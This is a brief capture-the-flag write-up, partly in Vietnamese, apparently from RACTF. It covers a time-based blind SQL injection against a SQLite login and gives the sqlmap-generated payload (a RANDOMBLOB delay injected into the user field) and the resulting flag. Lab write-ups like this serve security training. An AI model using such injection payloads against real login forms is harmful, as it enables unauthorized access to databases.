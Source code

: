 ![image-20200608011614283](images/image-20200608011614283.png)

Time-based Blind

Title: SQLite > 2.0

Do không có thời gian viết code bài này nên mình dùng luôn sqlmap :))

Payload: user=admin' OR 9766=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(500000000/2))))-- FdpX&pass=admin

![image-20200608011853129](images/image-20200608011853129.png)

Flag: **ractf{Y0u_B3tt3r_N0t_h4v3_us3d_sqlm4p}**

